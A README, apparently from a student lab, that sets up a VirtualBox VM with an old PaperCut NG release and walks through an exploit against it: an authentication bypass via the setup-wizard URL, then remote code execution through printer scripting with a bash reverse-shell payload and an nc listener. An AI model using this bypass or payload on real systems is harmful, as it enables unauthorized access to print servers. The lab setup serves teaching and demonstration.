

# CSV - PVE

## Pre-reauirements

1. Download and unzip the files directory.

- [Download link](https://hogent-my.sharepoint.com/:u:/g/personal/tuur_lammens2_student_hogent_be/IQD9ys_iPgBaRbVHIWtT64qjAVXEZbs4Yayvq5ibPBAzgQw?e=CsNsXj)
- This contains the Papercut NG 19.2.7 install script and a lightly modified vdi drive.
- The vdi drive had network adapters configured. That is everything. ip is `192.168.100.50`

2. Place the files directory in the root of this directory so it looks like the following:

```txt
.
├── files/
│   ├── CSV_PaperCut_Exploit_Demo.vdi
│   └── pcng-setup-19.2.6.9220-linux-x64.sh
├── static/
├── README.md
└── install.sh
```

3. Make sure that the host-only network of `192.168.100.0/24` already exists in virtualbox gui

- 
- You can keep adding new ones untill you reach number 5.
- The set ip does not matter, the script automatically changes this.
- **But the network itself should exist!**

4. If everything is configured correctly, you can run `./setup.sh`.

- If anything goes wrong during provisioning, it is good practace to stop and remove the VM.
  - The provisioning part is skipped if there is a VM with the same name.

## Exploit

### Phase 1: The Bypass (Authentication)

The vulnerability lies in how PaperCut handles the setup wizard. By hitting a specific URL, you can trick the server into thinking the initial setup is still in progress, allowing you to bypass the login screen entirely.

1. **Navigate to the Web UI:** Open a browser and go to: `https://192.168.100.50:9192/app`
2. **Initial admin creation:** Create an admin and go through the setup wizzard. None of the input fields matter since we will be bypassing. Log out afterwarts
  - Before loggin out: enable scripting
  - Go to **`Options > Config Editor`**
    - `print.script.sandboxed` => 'N'
    - `print-and-device.script.enabled` => 'Y'
2. **Navigate to the bypass URL:** Open a browser and go to: `https://192.168.100.50:9192/app?service=page/SetupCompleted`
3. **Verify Access:** You should see a "Setup Completed" message. Click the **Login** button or refresh the page. You should now be logged in as the `admin` user without having entered a password.

### Phase 2: The Payload (RCE)

Now that you have admin access, you will use the built-in "Printer Scripting" feature to execute system commands.

1.  Go to **Printers** in the left sidebar.
2.  Select the **template printer**.
3.  Click the **Scripting** tab.
4.  Check the box **Enable printer script** and replace the existing code with a Java-based reverse shell.

**Example Payload:**

```javascript
function printJobHook(inputs, actions) {
  // This executes a bash command to connect back to your host
  java.lang.Runtime.getRuntime().exec([
    "/bin/bash",
    "-c",
    "bash -i >& /dev/tcp/192.168.100.60/4444 0>&1",
  ]);
}
```

### Phase 3: Triggering the Exploit

1.  **Set up your listener:** On your host machine (not the VM), run:
    `nc -lvnp 4444`
2.  **Apply the Script:** In the PaperCut web interface, click **Apply**.
3.  **Catch the Shell:** As soon as you hit apply, check your terminal. You should see a connection from the VM's IP, giving you a command prompt as the `papercut` user.

---

## What the script does

The `install.sh` script builds a ready-to-use demo VM in VirtualBox.

It does these steps:

- Checks if the vm exists already. if not:
  - Creates a VM named `CSV_PaperCut_Exploit_Demo`.
  - Copies the provided VDI disk into the VM folder.
  - Configures VM hardware, networking, and shared folders.
- Checks if vm is already running. If not:
  - Starts the VM and waits for SSH access.
- Checks if guest additions is already installed. If not:
  - Installs required guest tools inside the VM.
  - Reboots vm
- Creates user `papercut`
- Mounts this project folder inside the VM.
- Runs the PaperCut installer automatically as papercut user.
- Generate certificates for https access
- Creates a dummy printer

After it finishes, the VM is prepared as a demo environment.

## Links

- [Osboxes ubuntu server](https://www.osboxes.org/ubuntu-server/)
- [papercut older releases](https://www.papercut.com/kb/Main/PastVersions/)
- [Papercut NG 19.2.7 mirror](https://cdn.papercut.com/web/products/ng-mf/installers/ng/19.x/pcng-setup-19.2.7.62200.sh)
